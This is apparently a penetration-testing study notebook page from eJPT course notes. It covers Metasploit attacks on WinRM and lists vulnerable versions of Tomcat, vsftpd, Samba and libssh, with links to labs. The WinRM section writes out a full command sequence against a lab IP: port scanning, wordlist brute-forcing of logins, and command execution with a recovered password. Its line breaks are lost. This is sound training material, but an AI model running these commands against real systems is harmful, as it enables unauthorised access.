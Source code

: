 #### WinRM <a href="#winrm" id="winrm"></a>

* Identify WinRM users with MSF and exploit WinRM by obtaining access credentials.
* Default WinRM HTTP port is **`5985`** and HTTPS **`5986`**

> 🔬 [WinRM Attack lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/winrm)​

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 10.2.27.173setg RHOST 10.2.27.173workspace -a WinRM​db\_nmap -sS -sV -O -p- 10.2.27.173# Port 5985 is set up for WinRMsearch type:auxiliary winrmuse auxiliary/scanner/winrm/winrm\_auth\_methodsoptionsrun​# Brute force WinRM loginsearch winrm\_loginuse auxiliary/scanner/winrm/winrm\_loginset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt​search winrm\_cmduse auxiliary/scanner/winrm/winrm\_cmdset USERNAME administratorset PASSWORD tinkerbellset CMD whoamirun![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-0bc3dc4945d45488dc092b94ee70750d1eb5b2e2%2Fimage-20230416114857268.png?alt=media)search winrm\_scriptuse exploit/windows/winrm/winrm\_script\_execset USERNAME administratorset PASSWORD tinkerbellset FORCE\_VBS trueexploit

#### Apache Tomcat <a href="#apache-tomcat" id="apache-tomcat"></a>

​[**`Apache Tomcat`**](https://tomcat.apache.org/) is a free open source Java servlet web server, _build to host dynamic websites and web apps developed in **Java**_.

* Tomcat default TCP port is **`8080`**
* Apache web server host HTML/PHP web apps, instead
* Apache Tomcat < **`v.8.5.23`** is vulnerable to a JSP Upload Bypass / RCE

> 🔬 [Tomcat - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/tomcat-msf-exp)​

#### FTP <a href="#ftp-1" id="ftp-1"></a>

​[**`vsftpd`**](https://security.appspot.com/vsftpd.html) is an Unix FTP server.

* vsftpd **`v.2.3.4`** is vulnerable to a command execution vulnerability

> 🔬 [FTP - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/ftpd-msf-exp)​

#### SAMBA <a href="#samba" id="samba"></a>

**`Samba`** is the Linux implementation of SMB.

* Samaba **`v.3.5.0`** is vulnerable to a RCE vulnerability

> 🔬 [Samba - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/samba-msf-exp)​

#### SSH <a href="#ssh-1" id="ssh-1"></a>

**`libssh`** is a C library that implements the SSHv2 protocol

* **`SSH`** default TCP port is **`22`**
* libssh **`v.0.6.0 - 0.8.0`** is vulnerable to an authentication bypass vulnerability

> 🔬 [SSH - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/ssh-msf-exp)​
